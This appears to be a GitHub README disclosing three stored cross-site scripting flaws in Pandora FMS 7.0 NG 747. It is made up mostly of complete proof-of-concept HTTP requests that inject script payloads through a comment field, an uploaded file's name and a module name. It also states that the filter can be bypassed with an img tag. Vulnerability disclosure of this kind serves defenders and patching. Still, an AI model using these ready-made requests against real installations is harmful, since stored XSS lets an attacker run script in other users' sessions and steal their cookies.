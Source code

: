 # Pandora-FMS-7.0-NG-747-Stored-XSS-Vulnerabilities
Three stored cross-site scripting (XSS) in [Pandora FMS 7.0 NG 747](https://pandorafms.org/features/free-download-monitoring-software/) can result in an attacker performing malicious actions to users who open a maliciously crafted link or third-party web page. In addition, the existing XSS filter can be bypassed with the "<img" tag.

Pandora FMS 7.0 NG747 and older versions are affected by these vulnerabilities.


# PoC-1 (comment)
To exploit vulnerability, someone could use a POST request to '/pandora_console/ajax.php' by manipulating 'comment' parameter in the request body to impact users who open a maliciously crafted link or third-party web page.

```
POST /pandora_console/ajax.php HTTP/1.1
Host: [HOST]
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: text/html, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 119
DNT: 1
Connection: close
Cookie: PHPSESSID=a55pr5b4gff5ea1h0pms4csrk5

page=include/ajax/events&add_comment=1&event_id=7&comment=<img src=x onerror="alert(document.cookie)">&meta=0&history=0
```

![](https://emreovunc.com/blog/en/Pandora-FMS-7.0-NG-747-Stored-XSS-01.png)

![](https://emreovunc.com/blog/en/Pandora-FMS-7.0-NG-747-Stored-XSS-02.png)

# PoC-2 (filename)
To exploit vulnerability, someone could use a POST request to '/pandora_console/index.php?sec=workspace&sec2=operation/incidents/incident_detail&id=3&upload_file=1' by manipulating 'filename' parameter in the request body to impact users who open a maliciously crafted link or third-party web page.

```
POST /pandora_console/index.php?sec=workspace&sec2=operation/incidents/incident_detail&id=3&upload_file=1 HTTP/1.1
Host: [HOST]
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------188134206132629608391758747427
Content-Length: 524
DNT: 1
Connection: close
Cookie: PHPSESSID=3098fl65su4l237navvq6d5igs
Upgrade-Insecure-Requests: 1

-----------------------------188134206132629608391758747427
Content-Disposition: form-data; name="userfile"; filename="\"><svg onload=alert(document.cookie)>.png"
Content-Type: image/png

"><svg onload=alert(1)>
-----------------------------188134206132629608391758747427
Content-Disposition: form-data; name="file_description"

desc
-----------------------------188134206132629608391758747427
Content-Disposition: form-data; name="upload"

Upload
-----------------------------188134206132629608391758747427--

```

![](https://emreovunc.com/blog/en/Pandora-FMS-7.0-NG-747-Stored-XSS-v2-01.png)

![](https://emreovunc.com/blog/en/Pandora-FMS-7.0-NG-747-Stored-XSS-v2-02.png)

# PoC-3 (name)
To exploit vulnerability, someone could use a POST request to '/pandora_console/index.php' by manipulating 'name' parameter in the request body to impact users who open a maliciously crafted link or third-party web page.

```
POST /pandora_console/index.php?sec=templates&sec2=godmode/modules/manage_network_components&refr=&search_id_group=0search_string=alert&search_string=alert&search=Search HTTP/1.1
Host: [HOST]
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: tr-TR,tr;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 1395
DNT: 1
Connection: close
Cookie: PHPSESSID=3098fl65su4l237navvq6d5igs
Upgrade-Insecure-Requests: 1

name=%3Cimg+src%3Dx+onerror%3D%22alert%28document.cookie%29%22%3E&type=6&type_names=eyI3IjoicmVtb3RlX2ljbXAiLCI2IjoicmVtb3RlX2ljbXBfcHJvYyIsIjE3IjoicmVtb3RlX3NubXBfc3RyaW5nIiwiMTgiOiJyZW1vdGVfc25tcF9wcm9jIiwiMTYiOiJyZW1vdGVfc25tcF9pbmMiLCIxNSI6InJlbW90ZV9zbm1wIiwiMTAiOiJyZW1vdGVfdGNwX3N0cmluZyIsIjkiOiJyZW1vdGVfdGNwX3Byb2MiLCIxMSI6InJlbW90ZV90Y3BfaW5jIiwiOCI6InJlbW90ZV90Y3AifQ%3D%3D&id_module_group=10&id_group=1&module_interval5f157220324ea_select=300&module_interval5f157220324ea_text=5&module_interval=300&module_interval5f157220324ea_units=60&dynamic_interval_select=0&dynamic_interval_text=&dynamic_interval=None&dynamic_interval_units=1&dynamic_min=0&dynamic_max=0&dynamic_two_tailed_sent=1&min_warning=0&max_warning=0&str_warning=&warning_inverse_sent=1&min_critical=0&max_critical=0&str_critical=&critical_inverse_sent=1&ff_type_sent=1&each_ff=0&ff_event=0&ff_event_normal=0&ff_event_warning=0&ff_event_critical=0&history_data=1&history_data_sent=1&min=0&max=0&unit=&throw_unknown_events=1&throw_unknown_events_sent=1&critical_instructions=&warning_instructions=&unknown_instructions=&description=&id_category=0&id_tag_available%5B%5D=critical&id_tag_selected%5B%5D=&snmp_community=&active_snmp_v3=0&post_process5f15722032b45_select=0&post_process5f15722032b45_text=0&post_process=0&name_oid=&command_text=&id_component_type=2&create_component=1&create_network_from_module=0&crt=Create
```

![](https://emreovunc.com/blog/en/Pandora-FMS-7.0-NG-747-Stored-XSS-v3-01.png)

![](https://emreovunc.com/blog/en/Pandora-FMS-7.0-NG-747-Stored-XSS-v3-02.png)
